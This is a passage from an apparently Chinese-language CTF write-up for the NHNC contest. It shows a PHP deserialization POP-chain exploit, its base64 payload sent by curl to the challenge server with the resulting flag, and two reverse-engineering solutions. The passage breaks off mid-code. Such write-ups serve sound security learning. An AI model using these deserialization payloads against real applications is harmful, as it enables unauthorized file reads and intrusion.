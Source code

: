 ```php=
$whale = new WHALE('abc', 'file:///flag');
$meow = new MEOW($whale);
$test = new TEST('test', $meow);

$serialized = serialize($test);
$payload = base64_encode($serialized);
echo $payload;
?>
```
傳送payload:
```bash
└─$ curl -X POST -d "pop=Tzo0OiJURVNUIjoyOntzOjQ6Im5vdGUiO3M6NDoidGVzdCI7czozOiJ1cmwiO086NDoiTUVPVyI6MTp7czoyOiJpZCI7Tzo1OiJXSEFMRSI6Mjp7czo0OiJuYW1lIjtzOjM6ImFiYyI7czoxMDoicmVwb3J0X3VyaSI7czoxMjoiZmlsZTovLy9mbGFnIjt9fX0=" http://chal.nhnc.ic3dt3a.org:60008/index.php
NHNC{FAKE_FLAG}NHNC{is_pop_chain_a_kind_of_injection_?_anyway_is_the_best_language_for_hackers}
```
>NHNC{is_pop_chain_a_kind_of_injection_?_anyway_is_the_best_language_for_hackers}

# Reverse
## easyyyyyyyyyy (50 pts)
```
author: kohiro

No more hint because it is so eazyyyyyyyyy
```
[file link](https://nhnc.ic3dt3a.org/files/05c9a039e51004dc963aac8468d448d6/NHNCbabyreverse?token=eyJ1c2VyX2lkIjo2MywidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6Mjh9.ZzqsOg.BUtpJUjsa6UuOIG4bAbI6mOrGLw)

用radare2分析，afl看到:
```bash
0x00401550    1     27 dbg.flag()
```
VV進去:
![image](https://hackmd.io/_uploads/HyJq6mdGJe.png)

> NHNC{this_is_a_easy_one}

## Guess the num (200 pts)
```
出題者：raymond

只有幸運的人才會拿到 flag。不幸運的人啊～今天不是你拿分數的好日子！
```
[file link](https://nhnc.ic3dt3a.org/files/c8ca6ecc673f41a29cf097dd79c14256/guess_the_num?token=eyJ1c2VyX2lkIjo2MywidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MTd9.Zzqt1w.dXtqu9YRYdFW-NEfPFpj7o7lfeU)

這邊用IDA打開

main函式裡:
```c=
  srand(0x1234u);
  printf("Lottery! Enter your number: ");
  __isoc99_scanf("%u", &v5);
  v3 = v5 % 0xFF;
  if ( v3 == rand() % 255 )
  {
    printf("You're blessed today! Here's your flag: %s\n", flag);
    puts("Caution ahead! You will be *DISQUALIFIED* if you share the flag; not everyone has the luck you do!");
  }
  else
  {
    puts("You shall not pass! Only those who have luck can get the flag!");
```